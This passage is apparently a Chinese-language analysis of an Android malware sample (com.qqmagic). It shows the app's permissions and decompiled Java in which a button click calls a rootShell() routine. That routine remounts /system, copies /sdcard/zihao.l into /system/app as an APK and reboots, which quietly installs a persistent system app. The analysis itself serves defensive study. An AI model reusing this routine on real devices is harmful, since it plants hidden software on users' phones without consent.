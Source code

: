 这里可以看出app的入口是c类，应用有如下权限：

允许程序打开网络套接字

    android.permission.INTERNET 

允许程序写入外部存储，如SD卡上写文件

    android.permission.WRITE_EXTERNAL_STORAGE


接下来，跟进C类查看

    package com.qqmagic;
    
    import LogCatBroadcaster;
    import android.app.Activity;
    import android.os.Bundle;
    import android.os.Environment;
    import android.view.View$OnClickListener;
    import android.view.View;
    import android.widget.Button;
    import android.widget.EditText;
    import java.io.FileOutputStream;
    import java.io.IOException;
    import java.io.InputStream;
    
    public class c extends Activity {
    final class ButtonClickListener implements View$OnClickListener {
        private final c this$0;

        public ButtonClickListener(c arg6) {
            super();
            c.this = arg6;
        }

        static c access$0(ButtonClickListener arg4) {
            return arg4.this$0;
        }
	  //一个按钮点击事件
        @Override public void onClick(View arg8) {
            new b().rootShell(); //new了一个b类，并且调用它的rootshell()方法
            a.deleteFile(c.this.file);//调用了a类的deleteFile()方法
        }
    }

那么我们跟进b类查看rootShell()方法：
发现b类里面定义了一大堆静态方法，都是一些检查权限，初始化命令的一些方法，重点是这个：


    void rootShell() {
        b.execCommand(new String[]{"mount -o rw,remount /system", "mount -o rw,remount /system/app", "cp /sdcard/zihao.l /system/app/", "chmod 777 /system/app/zihao.l", "mv /system/app/zihao.l /system/app/zihao.apk", "chmod 644 /system/app/zihao.apk", "reboot"}, true);
    }
这里熟悉指令的可以看出，它重新挂载了/system目录，然后复制zihao.l到/system/app下 最后将zihao.1文件改为zihao.apk文件，并且将这个文件的权限定义为可读，可写，可执行，然后重启，那么这里就很可疑了
